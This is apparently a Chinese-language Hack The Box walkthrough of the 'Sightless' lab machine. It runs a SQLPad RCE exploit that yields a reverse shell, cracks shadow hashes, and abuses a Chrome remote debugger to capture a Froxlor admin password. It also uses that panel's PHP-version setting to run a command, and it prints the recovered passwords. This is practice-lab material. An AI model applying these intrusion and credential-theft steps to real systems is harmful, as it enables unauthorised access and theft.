

services
```
┌──(root㉿kali)-[~]
└─# nmap -sV -Pn -A -O  10.10.11.32   
Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-11 02:08 EDT
Nmap scan report for 10.10.11.32
Host is up (0.36s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c96e3b8fc6032905e5a0ca0090c95c52 (ECDSA)
|_  256 9bde3a27773b1be1195f1611be70e056 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.93%I=7%D=9/11%Time=66E13409%P=x86_64-pc-linux-gnu%r(Gene
SF:ricLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x20Ser                                          
SF:ver\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\x20try                                          
SF:\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\x20b                                          
SF:eing\x20more\x20creative\r\n");                                                                                  
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).                 
TCP/IP fingerprint:                                                                                                 
OS:SCAN(V=7.93%E=4%D=9/11%OT=21%CT=1%CU=35899%PV=Y%DS=2%DC=T%G=Y%TM=66E1345                                         
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)OPS                                         
OS:(O1=M53AST11NW7%O2=M53AST11NW7%O3=M53ANNT11NW7%O4=M53AST11NW7%O5=M53AST1                                         
OS:1NW7%O6=M53AST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN                                         
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M53ANNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A                                         
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R                                         
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F                                         
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%                                         
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD                                         
OS:=S)                                                                                                              
                                                                                                                    
Network Distance: 2 hops                                                                                            
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                                             
                                                                                                                    
TRACEROUTE (using port 1723/tcp)                                                                                    
HOP RTT       ADDRESS                                                                                               
1   234.35 ms 10.10.16.1                                                                                            
2   411.55 ms 10.10.11.32                                                                                           
                                                                                                                    
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .               
Nmap done: 1 IP address (1 host up) scanned in 100.76 seconds

```

从首页web知道还有一个域名：sqlpad.sightless.htb

host
```
echo "10.10.11.32 sightless.htb" >> /etc/hosts
echo "10.10.11.32 sqlpad.sightless.htb" >> /etc/hosts
```


打开子域名是一个叫sqlpad的程序，版本号：6.10.0


这个版本存在RCE[CVE-2022-0944](https://github.com/shhrew/CVE-2022-0944),但是需要数据库的账号和密码

尝试用admin:admin
```
┌──(root㉿kali)-[~/htb/Sightless/CVE-2022-0944]
└─# python3 main.py http://sqlpad.sightless.htb/ 10.10.16.12 443 admin admin
[+] Username and password provided, authenticating...
[!] Authentication failed!

```


不用账号密码：

```
┌──(root㉿kali)-[~/htb/Sightless/CVE-2022-0944]
└─# python3 main.py http://sqlpad.sightless.htb/ 10.10.16.12 443            
[▖] Trying to bind to 10.10.16.12 on port 443: Trying 10.10.16.12
[▝] ption in thread Thread-1 (start_listener):
Traceback (most recent call last):
  File "/usr/lib/python3.11/threading.py", line 1045, in _bootstrap_inner
    self.run()
  File "/usr/lib/python3.11/threading.py", line 982, in run
    self._target(*self._args, **self._kwargs)
  File "/root/htb/Sightless/CVE-2022-0944/main.py", line 72, in start_listener
    listener = listen(lport, bindaddr=lhost)
               ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/local/lib/python3.11/dist-packages/pwnlib/tubes/listen.py", line 108, in __init__
    listen_sock.bind(self.sockaddr)
OSError: [Errno 98] Address already in use

```

拿到一个rev shell
```
┌──(root㉿kali)-[~/htb/Sightless]
└─# nc -lnvp 443               
listening on [any] 443 ...
connect to [10.10.16.12] from (UNKNOWN) [10.10.11.32] 59452
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 

```

已经是root，看来是在虚拟机里


根据shadow的哈希，爆破出michael的密码：insaneclownposse
```
                                                                                                       
┌──(root㉿kali)-[~/htb/Sightless]
└─# vim passwd          
                                                                                                       
┌──(root㉿kali)-[~/htb/Sightless]
└─# vim shadow
                                                                                            
┌──(root㉿kali)-[~/htb/Sightless]
└─# unshadow passwd shadow >pass.hash 
                                                                                            
┌──(root㉿kali)-[~/htb/Sightless]
└─# john pass.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
insaneclownposse (michael)     
1g 0:00:01:01 DONE (2024-09-11 04:32) 0.01614g/s 946.6p/s 946.6c/s 946.6C/s kruimel..galati
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```


这个凭据可以ssh到靶机
```
┌──(root㉿kali)-[~/htb/Sightless]
└─# ssh michael@10.10.11.32
The authenticity of host '10.10.11.32 (10.10.11.32)' can't be established.
ED25519 key fingerprint is SHA256:L+MjNuOUpEDeXYX6Ucy5RCzbINIjBx2qhJQKjYrExig.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.32' (ED25519) to the list of known hosts.
michael@10.10.11.32's password: 
Last login: Wed Sep 11 08:28:19 2024 from 10.10.14.103
michael@sightless:~$ whoami
michael
michael@sightless:~$ 

```

# 提权


linpeas里提示这个chrome的信息需要留意


```
john        1259  0.0  0.0   2892   992 ?        Ss   04:02   0:00      _ /bin/sh -c sleep 110 && /usr/bin/python3 /home/john/automation/administration.py
john        1651  0.0  0.6  33660 24420 ?        S    04:04   0:04          _ /usr/bin/python3 /home/john/automation/administration.py
john        1652  0.4  0.3 33630172 15432 ?      Sl   04:04   0:29              _ /home/john/automation/chromedriver --port=33231
john        1663  0.7  2.9 34011388 118408 ?     Sl   04:04   0:51              |   _ /opt/google/chrome/chrome --allow-pre-commit-input --disable-background-networking --disable-client-side-phishing-detection --disable-default-apps --disable-dev-shm-usage --disable-hang-monitor --disable-popup-blocking --disable-prompt-on-repost --disable-sync --enable-automation --enable-logging --headless --log-level=0 --no-first-run --no-sandbox --no-service-autorun --password-store=basic --remote-debugging-port=0 --test-type=webdriver --use-mock-keychain --user-data-dir=/tmp/.org.chromium.Chromium.GSkEA2 data:,                                              
john        1669  0.0  1.4 34112456 55848 ?      S    04:04   0:00              |       _ /opt/google/chrome/chrome --type=zygote --no-zygote-sandbox --no-sandbox --enable-logging --headless --log-level=0 --headless --crashpad-handler-pid=1665 --enable-crash-reporter
john        1686  0.6  3.0 34362844 122204 ?     Sl   04:04   0:42              |       |   _ /opt/google/chrome/chrome --type=gpu-process --no-sandbox --disable-dev-shm-usage --headless --ozone-platform=headless --use-angle=swiftshader-webgl --headless --crashpad-handler-pid=1665 --gpu-preferences=WAAAAAAAAAAgAAAMAAAAAAAAAAAAAAAAAABgAAEAAAA4AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGAAAAAAAAAAYAAAAAAAAAAgAAAAAAAAACAAAAAAAAAAIAAAAAAAAAA== --use-gl=angle --shared-files --fie
john        1670  0.0  1.4 34112452 55788 ?      S    04:04   0:00              |       _ /opt/google/chrome/chrome --type=zygote --no-sandbox --enable-logging --headless --log-level=0 --headless --crashpad-handler-pid=1665 --enable-crash-reporter
john        1715  3.1  3.9 1186799980 158280 ?   Sl   04:04   3:35              |       |   _ /opt/google/chrome/chrome --type=renderer --headless --crashpad-handler-pid=1665 --no-sandbox --disable-dev-shm-usage --enable-automation --remote-debugging-port=0 --test-type=webdriver --allow-pre-commit-input --ozone-platform=headless --disable-gpu-compositing --lang=en-US --num-raster-threads=1 --renderer-client-id=5 --time-ticks-at-unix-epoch=-1726200132015956 --launc
john        1687  0.1  2.1 33900068 86668 ?      Sl   04:04   0:09              |       _ /opt/google/chrome/chrome --type=utility --utility-sub-type=network.mojom.NetworkService --lang=en-US --service-sandbox-type=none --no-sandbox --disable-dev-shm-usage --use-angle=swiftshader-webgl --use-gl=angle --headless --crashpad-handler-pid=1665 --shared-files=v8_context_snapshot_data:100 --field-trial-handle=3,i,827332521014221776,16460166214226115604,262144 --disable-features=PaintHolding --variations-seed-version --enable-logging --log-level=0 --enable-crash-reporter


```


留意：```--remote-debugging-port=0```

参考[这里](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/)


内部开了很多服务
```
michael@sightless:~$ netstat -ano|grep 127.0.0.1
tcp        0      0 127.0.0.1:38111         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:48283         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:41173         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      off (0.00/0/0)
 
```

insaneclownposse

把8080端口转到kali 8081

```
ssh -L 8081:127.0.0.1:8080 michael@10.10.11.32 -N
```

一个叫froxlor的程序


把41173也转到本地
```
ssh -L 41173:127.0.0.1:41173 michael@10.10.11.32 -N
```

配置


设置以后可以监控到靶机对web的操作




得到了admin的密码：


```admin：ForlorfroxAdmin```


登录到了froxlor后台


Change PHP version 这里设置一条命令


去到这里关闭再打开，触发命令


拿到id_rsa

登录
